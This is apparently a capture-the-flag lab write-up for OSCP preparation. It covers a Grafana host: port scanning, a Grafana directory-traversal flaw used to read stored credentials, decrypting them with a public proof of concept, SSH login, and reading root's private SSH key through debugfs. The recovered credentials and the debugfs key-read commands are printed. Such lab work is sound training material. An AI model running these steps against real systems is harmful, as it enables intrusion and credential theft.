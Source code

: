 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Fanatastic
tags: ["priv-esc", "gobuster", "ssh", "persistence", "burpsuite", "directory-traversal"]
---
```


**Start 11:00 01-02-2025**

---
```
Scope:
192.168.140.181
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -vvvv -Pn -p- 192.168.140.181 -sT --min-rate=5000 -T5

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
3000/tcp open  http    syn-ack Grafana http
| http-robots.txt: 1 disallowed entry 
|_/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: F69DADBD5936359AF76AAB84559E849F
| http-title: Grafana
|_Requested resource was /login
|_http-trane-info: Problem with XML parsing of /evox/about
9090/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-title: Prometheus Time Series Collection and Processing Server
|_Requested resource was /graph
| http-methods: 
|_  Supported Methods: GET OPTIONS
|_http-favicon: Unknown favicon MD5: 5EE43B38986A144D6B5022EA8C8F748F
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](../../../assets/25872b21a4af82269bf8cbc921763e61.png)

![](../../../assets/c21d82fe9046e0be9dca3dcd766bc878.png)

Let's see if it works:

![](../../../assets/219e2e8f45761e2ead0ac0b453780305.png)

It does!!

![](../../../assets/e50687364d6419dfbf7ba33950e424cf.png)


## SQLite3

![](../../../assets/ece60399a198d7d5aa389be7ed49ecba.png)

From these tables this one seemed most interesting:

```SQL
SELECT * FROM data_source;
[{"id":1,"org_id":1,"version":1,"type":"prometheus","name":"Prometheus","access":"server","url":"http://localhost:9090","password":"","user":"","database":"","basic_auth":0,"basic_auth_user":"sysadmin","basic_auth_password":"","is_default":0,"json_data":"{}","created":"2022-02-04 09:19:59","updated":"2022-02-04 09:19:59","with_credentials":0,"secure_json_data":"{\"basicAuthPassword\":\"anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w==\"}","read_only":0,"uid":"HkdQ8Ganz"}]
```

Note the `basicAuthPassword` here, let's write it down.

```
anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w==
```


## Proof of Concept

We can now utilize the [following PoC](https://github.com/jas502n/Grafana-CVE-2021-43798/blob/main/AESDecrypt.go):

![](../../../assets/7a66e62ec6d16643d65fb0f4f6d6a2a3.png)

We just need to change this part with our own password.

![](../../../assets/8dc81f33ae21cb4480cbca469f63124c.png)

![](../../../assets/d925ae990c365b376de8ff7748a21beb.png)


### Troubleshooting

Once we try to run it we get this error that we need to solve:

![](../../../assets/7b6499dd0dad4363c54c2e445b86bd7c.png)

To get this properly working we need to use the following commands:

```bash
# Enable Go modules
export GO111MODULE=on

# Initiliaze Go module in project directory
go mod init Fanatastic

# Verify dependencies
go mod tidy

# Get required package
go get golang.org/x/crypto/pbkdf2
```

And afterwards we can run our PoC:

![](../../../assets/1399dab165a0133734b5ac405cda7ff8.png)

```bash
sysadmin
SuperSecureP@ssw0rd
```

We can now log into SSH.


# Foothold

![](../../../assets/8a213a35dea467d88ebb7587ee6ef5b2.png)

I then upgrade the shell using `script -c bash /dev/null`. 


## local.txt

![](../../../assets/4d3e39fb734bf54673597015479246a5.png)


# Privilege Escalation

![](../../../assets/6c326094b02be6a0fc2bfc3118476c25.png)

We can't run `sudo -l`, let's check binaries.

![](../../../assets/80fd5e922881caa4f2008f583ac8fcb7.png)

Upon downloading over and running linpeas I found this:

![](../../../assets/0d4c9ba834d62d606309816b167d0e04.png)

I looked it up on Google:

![](../../../assets/7c81b4c74eb10254502f83250330b3d6.png)

Following the article we check what partition the `/` directory is mounted on.

![](../../../assets/3113a04bd58613c82937f3756069a181.png)

Then using `debugfs /dev/sda2` we go ahead and read the contents of `root`'s `/.ssh/id_rsa` file.

```bash
debugfs /dev/sda2
mkdir test
cat /root/.ssh/id_rsa
```

![](../../../assets/0f1e042f00685c38f4c8e323e674b35b.png)

Now we copy the contents on our Kali, use `chmod 600` and log into `ssh` as *root*.

![](../../../assets/a09b34101219e9cf71c545e39ce8d127.png)

![](../../../assets/d020269c52274c9fb0367d2180f57a64.png)

Awesome, let's get the flag.


## proof.txt

![](../../../assets/dd693cc5fc636f4b0a05ffdb64fd8290.png)

---

**Finished 11:25 01-02-2025**

[^Links]:  [[OSCP Prep]]

